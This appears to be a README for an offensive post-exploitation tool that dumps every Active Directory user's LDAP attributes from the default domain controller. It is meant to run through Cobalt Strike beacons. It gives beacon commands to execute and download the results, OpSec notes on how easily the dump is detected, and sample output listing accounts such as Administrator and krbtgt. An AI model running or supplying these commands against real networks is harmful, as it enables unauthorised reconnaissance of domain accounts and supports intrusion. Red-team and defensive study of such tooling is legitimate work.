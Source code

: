 # Overview

This is a simple PS2EXE .NET assembly which will query default domain controller and extract all available user attributes from the domain via LDAP.

The key point about this is that this is converted powershell script and for ease of deployment via both ```execute-assembly``` as well as ```powershell``` commands.

# Examples 

This will dump all users on the default domain via execute-assembly:

```beacon> execute-assembly /tmp/ldap_dumpX86.NET2.exe```

This will dump all users on the default domain via powershell:

```beacon> powershell-import ldap_dump.ps1```

```beacon> powershell dump_all_ldap```

# Results

Simply download result file via following command: 

```beacon> download ldap_dump.txt```

# OpSec

This script will create file in the current working folder named ```ldap_dump.txt```. The file is clear text so it easy to monitor for. Also this script dumps all attributes from LDAP server so this can be noisy.

# Sample Output
```
beacon> execute-assembly ldap_dumpX86.NET2.exe
[*] Tasked beacon to run .NET program: ldap_dumpX86.NET2.exe
[+] host called home, sent: 142379 bytes
[+] received output:
[+] Dumping LDAP attributes for: Administrator
[+] Dumping LDAP attributes for: Guest
[+] Dumping LDAP attributes for: krbtgt
[+] Dumping LDAP attributes for: SystemMailbox{1f05a927-3543-4354-946a-e6752ef9bebf}
[+] Dumping LDAP attributes for: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}
[+] Dumping LDAP attributes for: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}
```